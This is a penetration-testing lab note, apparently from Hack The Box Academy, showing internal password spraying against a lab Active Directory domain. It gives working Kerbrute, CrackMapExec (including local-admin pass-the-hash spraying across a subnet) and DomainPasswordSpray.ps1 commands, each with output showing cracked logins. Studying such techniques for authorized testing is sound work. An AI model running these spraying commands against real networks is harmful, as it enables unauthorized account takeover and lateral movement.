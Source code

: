 # Spray Responsibly

## Internal Password Spraying - from Linux

&#x20;1️⃣ **Using Kerbrute for the Attack ⭐**

```
dollarboysushil@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \\/ ___/ __ \\/ ___/ / / / __/ _ \\
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\\___/_/  /_.___/_/   \\__,_/\\__/\\___/

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds
```

&#x20;2️⃣ **Using CrackMapExec & Filtering Logon Failures ⭐**



```
dollarboysushil@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\\avazquez:Password123
```

After getting correct credential from above method, we can validate the credentials using crackmapexec

```
dollarboysushil@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\\avazquez:Password123
```

3️⃣ **Local Admin Spraying with CrackMapExec**



```
dollarboysushil@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout

## Internal Password Spraying - from Windows

1️⃣ **Using DomainPasswordSpray.ps1**

```powershell
PS C:\\htb> Import-Module .\\DomainPasswordSpray.ps1
PS C:\\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2923 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2923 users. Current time is 2:57 PM
[*] Writing successes to spray_success
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1

[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_success
```
